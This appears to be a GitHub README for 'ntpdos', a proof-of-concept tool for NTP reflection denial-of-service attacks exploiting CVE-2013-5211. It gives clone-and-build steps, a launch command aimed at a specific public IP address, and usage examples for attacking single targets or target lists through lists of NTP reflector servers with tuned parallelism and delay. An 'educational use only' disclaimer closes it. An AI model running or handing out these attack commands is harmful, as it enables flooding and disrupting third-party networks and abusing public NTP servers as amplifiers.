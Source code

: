 # ntpdos

PoC for distributed NTP reflection DoS (CVE-2013-5211).

git clone https://github.com/CryptoXSS/ntpdos

cd ntpdos

make

./ntpdos -t 50.7.198.146 -S servers.lst -p 4

## Usage

```
$ ./ntpdos -H
--==[ ntpdos by sepehrdad ]==--

usage:

  ntpdos -t <addr> -s <addr> [options] | [misc]

options:

  -t <addr>    - target ip address
  -T <file>    - list of target ip addresses
  -s <addr>    - ntp server ip address
  -S <file>    - list of ntp server ip addresses
  -p <num>     - number of parallel processes (default: 80)
  -d <num>     - delay in microsecs (default: 1000)

misc:

  -V           - show version
  -H           - show help

example:

  # Attack 127.0.0.1 with servers from servers.lst
  $ ntpdos -t 127.0.0.1 -S servers.lst

  # Attack targets from targets.lst with 192.168.2.11 server
  $ ntpdos -T targets.lst -s 192.168.2.11

  # Attack targets from targets.lst with servers from servers.lst
  $ ntpdos -T targets.lst -S servers.lst

  # Attack 1.2.3.4 with 5.6.7.8 using 200 parallel processes
  $ ntpdos -t 1.2.3.4 -s 5.6.7.8 -p 200

  # Attack 1.2.3.4 with 5.6.7.8 with 1 microsec delay
  $ ntpdos -t 1.2.3.4 -s 5.6.7.8 -d 1

notes:

  * list of ip addresses should have 1 ip address per line

```

## License

This software is distributed under the GNU General Public License version 3 (GPLv3)

## LEGAL NOTICE

THIS SOFTWARE IS PROVIDED FOR EDUCATIONAL USE ONLY! IF YOU ENGAGE IN ANY ILLEGAL ACTIVITY THE AUTHOR DOES NOT TAKE ANY RESPONSIBILITY FOR IT. BY USING THIS SOFTWARE YOU AGREE WITH THESE TERMS.

## Get Involved

**Please, send us pull requests!**
